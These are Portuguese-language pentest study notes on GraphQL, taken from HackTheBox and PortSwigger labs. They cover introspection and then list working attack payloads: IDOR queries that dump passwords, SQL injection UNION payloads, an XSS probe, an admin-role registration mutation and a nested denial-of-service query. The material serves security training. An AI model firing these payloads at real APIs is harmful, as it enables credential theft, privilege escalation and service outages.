








# GraphQL (CWES)

- **GraphQL** (HackTheBox)
    
    (skills assessment eh bom para praticar e entender as queries)
    
    (PODE SER que encontremos um endpoint que so aceita GET e ao enviar POST fica dando `“Not Found”` (lab3 PS)
    
    - **Teoria**
        
        ## 1) Teoria curta (com detalhe extra)
        
        - **Ponto único:** GraphQL normalmente expõe um **único endpoint** que responde por todas as operações (consulta, criação, edição, remoção).
        - **Contrato (schema):** O backend define um *schema* com tipos (User, Post, Comment, etc.) e *queries/mutations*. Esse schema descreve quais campos cada tipo tem e que argumentos as operações aceitam.
        - **Consulta orientada a campos:** o cliente pede exatamente os campos que quer — o servidor devolve o objeto na mesma estrutura. Isso evita over/under-fetching.
        - **Sub-queries / relacionamentos:** campos podem retornar objetos aninhados (ex.: `Post` tem um `author` que é um `User`), então a query pode "navegar" por relacionamentos e trazer dados relacionados numa única chamada.
        - **Introspection:** muitos servidores permitem uma *introspection query* (e uma interface como GraphiQL/Playground), o que facilita descobrir o schema publicamente se não for protegido.
        
        ## 2) Onde costuma “estar” (paths / UIs / arquivos no projeto)
        
        - **Endpoints HTTP típicos / UIs:**
            - `/graphql`, `/api/graphql`, `/v1/graphql`
            - UIs/devtools: `/graphiql`, `/playground`, `/altair`, `/voyager`, `/graphql/playground`
        - **Estrutura de código comum (servidor):** pastas/arquivos como
            - `src/graphql/`, `src/schema/`, `graphql/schema.js`, `graphql/resolvers.js`, `graphql/typeDefs.js`
            - frameworks: `apollo-server`, `express-graphql`, `graphql-yoga` costumam agrupar schema + resolvers nestes locais.
        
        ## 3) Como a query funciona (passo a passo simples)
        
        1. **Cliente constrói a query** (texto GraphQL) pedindo tipos e campos específicos.
        2. **Envia ao endpoint** (tipicamente via **POST** com `Content-Type: application/json`, ou às vezes GET para queries simples).
        3. **Servidor valida** a query contra o schema (tipos, permissões, argumentos).
        4. **Resolvers** executam: cada campo tem uma função (resolver) que busca/compõe os dados (do banco, serviço, cache).
        5. **Resposta** é um JSON com a chave `data` e a mesma estrutura pedida; se houver erro, vem em `errors`.
        
        ## 4) Exemplo simples (Post → User) — o que eu enviaria (para notas)
        
        ### Query (texto GraphQL)
        
        ```graphql
        {
          posts {
            id
            title
            createdAt
            author {
              id
              username
              email
            }
          }
        }
        
        ```
        
        ### Corpo HTTP (exemplo, usando POST JSON)
        
        ```json
        POST /graphql
        Content-Type: application/json
        
        {
          "query": "{ posts { id title createdAt author { id username email } } }"
        }
        
        ```
        
        ### Uso de variável (ex.: filtrar por username)
        
        Query com variável:
        
        ```graphql
        query getUserPosts($u:String!) {
          posts(authorUsername: $u) {
            id
            title
          }
        }
        
        ```
        
        Corpo HTTP com `variables`:
        
        ```json
        {
          "query": "query getUserPosts($u:String!) { posts(authorUsername: $u) { id title } }",
          "variables": { "u": "admin" },
          "operationName": "getUserPosts"
        }
        
        ```
        
    - **Identifying**
        
        Podemos usar **graphw00f** na URL cru do site (já faz uma leve enumeration de diretórios comuns, como `/graphql`, etc)
        
        [https://github.com/dolevf/graphw00f](https://github.com/dolevf/graphw00f)
        
        **`python3 main.py -d -f -t http://IP`**
        
        (retorna a engine usada até a matrix dela em específico com a URL, para sabermos se é possível instrospection e outras coisas)
        
        (podemos inspecionar a pagina em Network tbm e ver se envia algum POST) → copiar Headers E o Post Data para inserir no Repeat do Burp.)
        
        seguimos com a “identificao” na Introspection
        
    - **Introspection**
        
        Metodo para vermos o schema do sistema backend e suas variaveis.
        
        ---
        
        Primeiro confirmamos se o endpoint aceita introspeccao:
        
        ```bash
        {
          __schema {
            types {
              name
            }
          }
        }
        ```
        
        (CASO ESTEJA dando erro, podemos checar como estava antes os dados no Request e ver se tem algum parametro especificando o nome da operacao (retirar))
        
        De primeira ja usamos essa Query para mapear TODO o sistema e depois jogamos a resposta no [VOYAGER](https://apis.guru/graphql-voyager/) ****para processar e visualizarmos (vai servir de base para os outros payloads e melhor analise):
        
        (pode ser que tenha protecoes contra introspection, testar todas queries (lab3 PS))
        
        ```bash
        query IntrospectionQuery {
              __schema {
                queryType { name }
                mutationType { name }
                subscriptionType { name }
                types {
                  ...FullType
                }
                directives {
                  name
                  description
                  
                  locations
                  args {
                    ...InputValue
                  }
                }
              }
            }
        
            fragment FullType on __Type {
              kind
              name
              description
              
              fields(includeDeprecated: true) {
                name
                description
                args {
                  ...InputValue
                }
                type {
                  ...TypeRef
                }
                isDeprecated
                deprecationReason
              }
              inputFields {
                ...InputValue
              }
              interfaces {
                ...TypeRef
              }
              enumValues(includeDeprecated: true) {
                name
                description
                isDeprecated
                deprecationReason
              }
              possibleTypes {
                ...TypeRef
              }
            }
        
            fragment InputValue on __InputValue {
              name
              description
              type { ...TypeRef }
              defaultValue
            }
        
            fragment TypeRef on __Type {
              kind
              name
              ofType {
                kind
                name
                ofType {
                  kind
                  name
                  ofType {
                    kind
                    name
                    ofType {
                      kind
                      name
                      ofType {
                        kind
                        name
                        ofType {
                          kind
                          name
                          ofType {
                            kind
                            name
                          }
                        }
                      }
                    }
                  }
                }
              }
            }
        ```
        
        Desde o Primeiro comando de confirmacao ou com o mapa do schema, sabemos agora as variaveis e seus types, podemos especifica-los na query para mais informacoes de alguma (Ex retornado: `name: UserObject`):
        
        ```bash
        {
          __type(name: "UserObject") {
            name
            fields {
              name
              description
              type {
                name
                kind
                ofType {
                	name
                    kind
                }
              }
            }
          }
        }
        ```
        
        Ex de users retornado (para sabermos do nome users, vemos no Voyager, o nome da query (normalmente tem do lado: `[ ]` ) que direciona para o `UserObject`, para ver as queries disponiveis tambem podemos rodar o de listar queries disponiveis la embaixo):
        
        ```bash
        {
          users {
            username
            password
          }
        }
        ```
        
        Se tiver posts tambem (tentar sem o edges e nodes, apenas posts e title e oq for que tiver de campo, mas tava dando erro e ao ir inserindo esse edges e node funcionou):
        
        ```bash
        {
          users {
            id
            username
            password
            role
            msg
            posts {
              edges {
                node {
                	title
                  }
                }
            }
          }
        }
        ```
        
        Listar queries disponiveis:
        
        ```bash
        {
          __schema {
            queryType {
              fields {
                name
        	      description
                type {
                  name
                  kind
                }
              }
            }
          }
        }
        ```
        
    - **EX de Introspection/Exploracao de campos (lab1, 2 PS)   !!!**
        
        
        
        ```bash
        query {
          getAllBlogPosts {
            id
            title
            author
            date
          }
        }
        ```
        
        ```bash
        # (COLOCAR NO <u>**RAW**</u>):
        {
          "query": "query GetPost($id: Int!) { getBlogPost(id: $id) { id title postPassword isPrivate } }",
          "operationName": "GetPost",
          "variables": { "id": 1 }
        }
        ```
        
        ```bash
        # colocar no <u>**RAW**</u>:
        {
          "query": "query GetUser($id:Int!){ getUser(id:$id){ id username password } }",
          "operationName": "GetUser",
          "variables": { "id": 1 }
        }
        ```
        
        ---
        
    - **IDOR Ex**
        
        Quando (acessando nosso perfil ou etc) notamos que a aplicacao faz um Post para buscar nossos dados:
        
        
        
        Para confirmar IDOR, podemos trocar nosso nome para um que sabemos que existe → **test** (ou criamos outra conta):
        
        
        
        ---
        
        ### Exploiting
        
        (a exploracao segue o mesmo padrao que coloquei acima em instrospection)
        
        Primeiro vemos os fields do User:
        
        ```graphql
        {
          __type(name: "UserObject") {
            name
            fields {
              name
              type {
                name
                kind
              }
            }
          }
        }
        ```
        
        
        
        Agora podemos (especificando o username) explorar:
        
        ```graphql
        {
          user(username: "test") {
            username
            password
          }
        }
        ```
        
        
        
        ---
        
    - **Injection Attacks (SQLi & XSS)**
        
        ### SQL Injection
        
        ---
        
        **(TESTAR EM TODOS AS RELACOES do schema (que inserimos um valor de campo, ou seja, normalmente os que tem `By` no nome da relacao (ex do skills assessment do HTB), pois pode funcionar so em algumas)**
        
        No exemplo dado, a query interceptada eh de um post em que eh passado o nome do autor, podemos checar se ele exige esse campo de autor ao retira-lo e substituir so por ID por exemplo. (no Ex ele exige) Entao podemos tentar algumas formas de payload em ordem para checar por SQL injection.
        
        **query** **NORMAL** de exemplo:
        
        ```bash
        {
        	"query": "{user(username: \"htb-student\") { uuid username role }}"
        }
        ```
        
        Primeiro teste de **Payload** (**`htb-student' -- -`**):
        
        ```bash
        {
        	"query": "{user(username: \"htb-student' -- -\") { uuid username role }}"
        }
        ```
        
        N entendi mas aparentemente se retornar igual indica vuln, podemos confirmar com o Segundo Payload (aspas simples):
        
        ```bash
        {
        	"query": "{user(username: \"htb-student'\") { uuid username role }}"
        }
        ```
        
        Se retornar erro confirma a Vuln
        
        Para prosseguir, precisamos saber a quantidade de colunas correta para reflexao do resultado e para que possamos explorar, ir no Voyager e ver a qtdade de files do user:
        
        
        
        posts eh um link e nao conta! Entao temos nesse caso 6 colunas
        
        Exploracao com **GROUP_CONCAT**:
        
        ```bash
        {
          user(username: "x' UNION SELECT 1,2,GROUP_CONCAT(table_name),4,5,6 FROM information_schema.tables WHERE table_schema=database()-- -") {
            username
          }
        }
        ```
        
        a partir daqui, ver + info no modulo de SQL Injection…
        
        ---
        
        ### **Cross-Site Scripting (XSS)**
        
        Payload:
        
        **`<script>alert(1)</script>’`**
        
        ```bash
        {
        	"query": "{user(username: \"<script>alert(1)</script>'\") { uuid username role }}"
        }
        ```
        
        Podemos tentar em outros cenarios que o GraphQL retorna erro, pois ele pode refletir o conteudo ao falar que deu erro e rodar o script.
        
        ---
        
    - **Mutations**
        
        Existe a opcao de criar objetos, editar e deletar dentro do GraphQL, alem de somente ler como estavamos fazendo.
        
        Primeiro checamos as **mutations** disponiveis:
        
        ```bash
        query {
          __schema {
            mutationType {
              name
              fields {
                name
                args {
                  name
                  defaultValue
                  type {
                    ...TypeRef
                  }
                }
              }
            }
          }
        }
        
        fragment TypeRef on __Type {
          kind
          name
          ofType {
            kind
            name
            ofType {
              kind
              name
              ofType {
                kind
                name
                ofType {
                  kind
                  name
                  ofType {
                    kind
                    name
                    ofType {
                      kind
                      name
                      ofType {
                        kind
                        name
                      }
                    }
                  }
                }
              }
            }
          }
        }
        ```
        
        Ex de output:
        
        
        
        Nota-se a existencia da mutation **`registerUser`**, que exige o input de um objeto **`RegisterUserInput`**.
        
        **!ANTES DE PROSSEGUIR, precisamos explorar de acordo com a mutation, nesse caso eh a de registrar usuario, entao devemos fazer um enumeration e extrair o maximo de resultado dos campos `role` possivel, para ver quais os roles existentes e tentar registrar como role de admin por ex se existente!**
        
        Para saber os fields do **`RegisterUserInput`** e usa-los na mutation:
        
        ```bash
        {   
          __type(name: "RegisterUserInput") {
            name
            inputFields {
              name
              description
              defaultValue
            }
          }
        }
        ```
        
        Ex output:
        
        
        
        No caso sabemos de antes ja que eh necessario inserir a senha como MD5, entao no nosso terminal:
        
        **`echo -n 'password' | md5sum`**
        
        Payload:
        
        ```bash
        mutation {
          registerUser(input: {username: "vautiaAdmin", password: "5f4dcc3b5aa765d61d8327deb882cf99", role: "admin", msg: "Hacked!"}) {
            user {
              username
              password
              msg
              role
            }
          }
        }
        
        ```
        
        ---
        
    - **Exploitation Tools**
        
        ### **GraphQL-Cop**
        
        [https://github.com/dolevf/graphql-cop](https://github.com/dolevf/graphql-cop)
        
        `python3 graphql-cop.py  -v`
        
        ```bash
        python3 graphql-cop.py -t http://172.17.0.2/graphql
        ```
        
        ### **InQL**
        
        (https://github.com/portswigger/inql)
        
        Extensao do Burp que podemos instalar via **`BApp Store`** no Burp.
        
        Furthermore, we can right-click on a GraphQL request and select `Extensions > InQL - GraphQL Scanner > Generate queries with InQL Scanner`:
        
        Afterward, InQL generates introspection information. The information regarding all mutations and queries is provided in the `InQL` tab for the scanned host.
        
        ---
        
    - DOS
        
        Exemplo:
        
        
        
        Notamos que existe um Loop entre **`UserObject`** e **`PostObject`**, dado respectivamente pelo link **`posts`** e o **`author`**, podemos entao criar um loop infinito entre eles, primeiro testamos com apenas 1 loop:
        
        ```bash
        {
          posts {
            author {
              posts {
                edges {
                  node {
                    author {
                      username
                    }
                  }
                }
              }
            }
          }
        }
        ```
        
        (edges e node eh como o estilo do posts funciona para pegar o campo)
        
        Isso ja ira deixar o site lento e criara diversos resultados. Podemos entao repetir isso varias vezes para crashar:
        
        ```bash
        {
          posts {
            author {
              posts {
                edges {
                  node {
                    author {
                      posts {
                        edges {
                          node {
                            author {
                              posts {
                                edges {
                                  node {
                                    author {
                                      posts {
                                        edges {
                                          node {
                                            author {
                                              posts {
                                                edges {
                                                  node {
                                                    author {
                                                      posts {
                                                        edges {
                                                          node {
                                                            author {
                                                              posts {
                                                                edges {
                                                                  node {
                                                                    author {
                                                                      posts {
                                                                        edges {
                                                                          node {
                                                                            author {
                                                                              username
                                                                            }
                                                                          }
                                                                        }
                                                                      }
                                                                    }
                                                                  }
                                                                }
                                                              }
                                                            }
                                                          }
                                                        }
                                                      }
                                                    }
                                                  }
                                                }
                                              }
                                            }
                                          }
                                        }
                                      }
                                    }
                                  }
                                }
                              }
                            }
                          }
                        }
                      }
                    }
                  }
                }
              }
            }
          }
        }
        
        ```
        

---

- **GraphQL Notes** (Solyd)
    
    (ex: ao redefinir a senha, receber um codigo pelo email e for inserir no app, notamos que o envio eh feito para API e que pode ser enviado DIVERSOS códigos na MESMA query (como que um bruteforce mas sem ser feito em várias requisicoes, entao funciona)
    

---

- **PortSwigger**
    - Lab 1: Accessing private GraphQL posts (APPRENTICE)
        
        ```bash
        The blog page for this lab contains a hidden blog post that has a secret password. To solve the lab, find the hidden blog post and enter the 
        password.
        ```
        
        (olhar em : `EX de Introspection/Exploracao de campos (lab1 PS)   !!!`)
        
        1. In Burp's browser, access the blog page.
        2. In Burp, go to **Proxy > HTTP history** and notice the following:
            - Blog posts are retrieved using a GraphQL query.
            - In the response to the GraphQL query, each blog post has its own sequential `id`.
            - Blog post `id` 3 is missing from the list. This indicates that there is a hidden blog post.
        3. Find the `POST /graphql/v1` request. Right-click it and select **Send to Repeater**.
        4. In Repeater, right-click anywhere in the Request panel of the message editor and select **GraphQL > Set introspection query** to insert an introspection query into the request body.
        5. Send the request. Notice in the response that the `BlogPost` type has a `postPassword` field available.
        
        **Exploit the vulnerability to find the password**
        
        1. In the HTTP history, find the `POST /graphql/v1` request. Right-click it and select **Send to Repeater**.
        2. In Repeater, click on the **GraphQL** tab. In the **Variables** panel, modify the `id` variable to 3 (the ID of the hidden blog post).
        3. In the **Query** panel, add the `postPassword` field to the query.
        4. Send the request.
        5. Copy the contents of the response's `postPassword` field and paste them into the **Submit solution** dialog to solve the lab. You may need to refresh the page.
        
        ---
        
    - Lab 2: Accidental exposure of private GraphQL fields (PRACTITIONER)
        
        ```bash
        The user management functions for this lab are powered by a 
        GraphQL endpoint. The lab contains an access control vulnerability 
        whereby you can induce the API to reveal user credential fields. To solve the lab, sign in as the administrator and delete the username carlos.
        ```
        
        (olhar em : `EX de Introspection/Exploracao de campos (lab1 PS)   !!!`)
        
        1. In Burp's browser, access the lab and select **My account**.
        2. Attempt to log in to the site.
        3. In Burp, go to **Proxy > HTTP history** and notice that the login attempt is sent as a GraphQL mutation containing a username and password.
        4. Right-click the login request and select **Send to Repeater**.
        5. In Repeater, right-click anywhere within the Request panel of the message editor and select **GraphQL > Set introspection query** to insert an introspection query into the request body.
        6. Send the request.
        7. Right-click the message and select **GraphQL > Save GraphQL queries to site map**.
        8. Go to **Target > Site map** and review the GraphQL queries. Notice the following:
            - There is a `getUser` query that returns a user's username and password.
            - This query fetches the relevant user information via a direct reference to an `id` number.
        
        **Modify the query to retrieve the administrator credentials**
        
        1. Right-click the the `getUser` query and select **Send to Repeater**.
        2. In Repeater, click **Send**. Notice that the default `id` value of `0` doesn't return a user.
        3. Select the GraphQL tab and test alternative values for the `id` variable until the API returns the administrator's credentials. In this case, the administrator's ID is `1`.
        4. Log in to the site as the administrator, go to the **Admin** panel, and delete `carlos` to solve the lab.
        
        ---
        
    - Lab 3: Finding a hidden GraphQL endpoint (PRACTITIONER)
        
        ```bash
        The user management functions for this lab are powered by a 
        hidden GraphQL endpoint. You won't be able to find this endpoint by 
        simply clicking pages in the site. The endpoint also has some defenses 
        against introspection. To solve the lab, find the hidden endpoint and delete carlos.
        ```
        
        ---
